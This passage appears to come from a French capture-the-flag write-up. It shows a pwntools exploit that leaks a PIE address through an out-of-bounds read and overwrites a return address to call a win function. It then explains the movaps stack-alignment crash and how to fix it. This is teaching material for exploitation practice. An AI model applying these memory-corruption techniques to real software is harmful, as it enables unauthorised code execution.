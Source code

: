 ```py
        choice(0)

    for _ in range(5): # On ajoute 5 plaintes, pour ensuite modifier la dernière avec 24 octets.
        add(b"a")

     # On modifie la dernière plainte avec 24 octets, ici nombre_plainte sera remplacé par 0x20.
    edit(4, b"A"*0x10 + p64(0x20)[:5])
	# On peut maintenant accéder à des plaintes en dehors du tableau, jusqu'à l'index 32.

    leaks = show() # On utilise "afficher_toutes_les_plaintes" pour leak des valeurs.
    exe.address = u64(leaks[0xc]) - 0x3d88 # PIE leak
    show_leak("exe", exe.address)

    edit(6, b"A"*8 + p64(exe.sym.win)) # On réécrie l'adresse de retour par l'adresse de la fonction win.
    quit()

    io.interactive()
    input("end")
    exit()
```
Essayons le (avec gdb attaché au programme):
`Program received signal SIGSEGV, Segmentation fault.`
Ah...

Mettons un breakpoint sur l'instruction ret de `main_logic`:
```
0x5555555556e6 c3                  <main_logic+0x60>   ret
    0x555555555229 f30f1efa         <win>   endbr64
    0x55555555522d 55                  <win+0x4>   push   rbp
	...
```
C'est bizarre, on appelle bel et bien win mais ça crash quand même.
Si on continue instruction par instruction avec `ni`, on voit que le progamme meurt sur l'appelle de `system("cat /flag.txt")`, sur cette instruction:
```x86
movaps XMMWORD PTR [rsp + 0x50], xmm0
```
Avec quelque recherche, on tombe sur [movaps](https://www.felixcloutier.com/x86/movaps) qui nous explique que:
> the operand must be aligned on a 16-byte (128-bit version), 32-byte (VEX.256 encoded version) or 64-byte (EVEX.512 encoded version) boundary or a general-protection exception (#GP)

En gros, si la destination (`[rsp + 0x50]`) n'est pas aligné sur 16 bits, les 4 premier bits doivent être 0 (exemple: `0x7fffffffdff0`), alors le programme crash. `[rsp + 0x50]` dépend de la position du stack (`rsp` est le registre qui contient l'adresse de la stack) donc `rsp` doit être aligné sur 16 bits, ce qui n'est pas le cas si on regarde dans gdb.

Pour remédier à ce problème, on peut par exemple sauter sur `win+5`, cela permet de sauter le `push rbp` au début de `win` et donc de garder une adresse de stack aligné pour ne pas faire crash le programme. Sauter le `push rbp` aura des conséquences (crash) à la fin de `win` mais on aura déjà obtenu notre flag donc c'est pas grave.
Ce problème est plutôt connu en pwn, une autre technique est de rajouter un `ret` avant de sauter sur la fonction qu'on veut pour re aligner la stack (un petit ROP) mais dans ce cas il faudrait aussi écrire la plainte 7.
